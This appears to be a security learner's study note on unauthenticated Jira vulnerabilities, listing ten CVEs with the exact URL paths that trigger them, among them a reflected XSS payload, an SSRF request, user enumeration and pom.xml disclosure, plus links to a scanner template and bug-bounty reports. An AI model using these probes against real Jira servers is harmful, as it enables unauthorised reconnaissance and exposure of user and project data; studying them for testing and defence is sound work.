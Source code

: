 `21 December 2022`
## **Day 4: What I have Learned**
***
## **JIRA**:
- Jira is a proprietary issue tracking product developed by Atlassian that allows bug tracking and agile project management.
***
## **Unauthenticated & Exploitable JIRA Vulnerabilities**:
1. CVE-2020-14179 (Sensitive Information Disclosure)
- Navigate to <JIRA_URL>/secure/QueryComponent!Default.jspa.
- It leaks information about custom fields, custom SLA, etc.
2. CVE-2020-14181 (User Enumeration)
- Navigate to <JIRA_URL>/secure/ViewUserHover.jspa?username='<'uname'>'
3. CVE-2020-14178 (Project Key Enumeration)
-  Navigate to <JIRA_URL>/browse.<project_key>
- Observe the error message on valid vs. invalid project key. Apart from the Enumeration, you can often get unauthenticated access to the project if the protections are not in place.
4. CVE-2019-3402 (XSS) 
- Navigate to <JIRA_URL>/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=%3Cscript%3Ealert(1)%3C/script%3E&Search=Search
5. CVE-2019-11581 (SSTI)
- Navigate to <JIRA_URL>/secure/ContactAdministrators!default.jspa
6. CVE-2019-3396 (Path Traversal)
7. CVE-2019-8451 (SSRF)
- Navigate to <JIRA_URL>/plugins/servlet/gadgets/makeRequest?url=https://<host_name>:1337@example.com
8. CVE-2019-8449 (User Information Disclosure)
- Navigate to <JIRA_URL>/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true.
- Observe that the user related information will be available.
9. CVE-2019-3403 (User Enumeration)
- Navigate to <Jira_URL>/rest/api/2/user/picker?query=<user_name_here> 
- Observe the difference in response when valid vs. invalid user is queried.
10. CVE-2019-8442 (Sensitive Information Disclosure)
- Navigate to <JIRA_URL>/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
- Observe that the pom.xml file is accessible.
***
## **Tools**:
1. [Nuclei Template](https://github.com/projectdiscovery/nuclei-templates/blob/master/workflows/jira-workflow.yaml) can be used to automate most of these CVEs Detection.
## **Reports**:
1. [Information disclosure on sim.starbucks.com](https://hackerone.com/reports/632808).
2. [CVE-2020-14179 jspa leads to information disclosure](https://hackerone.com/reports/1003980).
## **Blog**:
1. [How i converted SSRF TO XSS in jira](https://medium.com/@D0rkerDevil/how-i-convert-ssrf-to-xss-in-a-ssrf-vulnerable-jira-e9f37ad5b158).

***
- A Map Of  Unauthenticated & Exploitable JIRA Vulnerabilities
[Here.](https://xmind.app/m/Jrn7f8/).
***
## **The End**